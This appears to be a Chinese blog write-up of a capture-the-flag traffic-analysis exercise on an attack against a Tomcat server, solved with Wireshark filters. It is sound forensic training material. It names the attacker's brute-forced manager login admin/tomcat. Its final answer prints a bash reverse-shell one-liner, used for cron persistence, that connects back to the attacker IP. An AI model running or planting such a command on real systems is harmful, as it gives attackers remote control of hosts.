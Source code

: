 ```yaml
---
title: 第六章 流量特征分析-常见攻击事件 tomcat
subtitle:
date: 2025-03-14T14:29:40+08:00
slug: 1008ea3
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - 玄机
categories:
  - 玄机
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->

```
1、在web服务器上发现的可疑活动,流量分析会显示很多请求,这表明存在恶意的扫描行为,通过分析扫描的行为后提交攻击者IP  flag格式：flag{ip}，如：flag{127.0.0.1}
2、找到攻击者IP后请通过技术手段确定其所在地址 flag格式: flag{城市英文小写}
3、哪一个端口提供对web服务器管理面板的访问？ flag格式：flag{2222}
4、经过前面对攻击者行为的分析后,攻击者运用的工具是？ flag格式：flag{名称}
5、攻击者拿到特定目录的线索后,想要通过暴力破解的方式登录,请通过分析流量找到攻击者登录成功的用户名和密码？ flag格式：flag{root-123}
6、攻击者登录成功后,先要建立反弹shell,请分析流量提交恶意文件的名称？ flag格式：flag{114514.txt}
7、攻击者想要维持提权成功后的登录,请分析流量后提交关键的信息？ flag提示,某种任务里的信息
```

查找恶意扫描，需要确定SYN标志位为 `1`的数据包，确认同一个ip发出大量SYN字段的为攻击者

```
tcp.flags.syn == 1
```



![](images/3255da578c98b68e7c04d1898cd927fa.png)

发现大部分的SYN包来自于`14.0.0.120`
第一问：flag{14.0.0.120}

网站直接查询[IP归属地查询 - 在线工具](https://tool.lu/ip/)

![](images/0e08aabc1a2e6b4917c07c15cfb9cf1a.png)

第二问：flag{guangzhou}

tomacat的默认端口为`8080`，或者过滤查找请求为`200`

```
http contains "200"
```



![](images/42c89dcd79add54ae0098c27d5ea1736.png)

第三问：flag{8080}

过滤ip为`14.0.0.120`的攻击源，并查看`http`报文，过滤GET请求

```
ip.src_host == 14.0.0.120 && http && http.request.method == "GET"
```



![](images/382c9e48b96acab60b9569a8257343ed.png)

第四问：flag{gobuster}

tomcat的管理面板默认路径为`url/manager`

```
ip.src_host == 14.0.0.120 && http.uri contains "/manager"
```



![](images/8269a4fd939d9e9f9a6e952da3c3d7e6.png)

第五问：flag{admin-tomcat}

同上还是这个包，往下翻

![](images/e02482bde4c0e7cb795e940a31339b8c.png)

第六问：flag{JXQOZY.war}

上题题目提到建立了反弹shell，直接过滤

```
ip.src_host == 14.0.0.120 && frame contains "bin/bash"
```

追踪`TCP流`

![](images/d880c73d1c7caa82253985d9d39717ce.png)

攻击者通过`cron -i cron`命令定时反弹shell
第七问：flag{/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'}
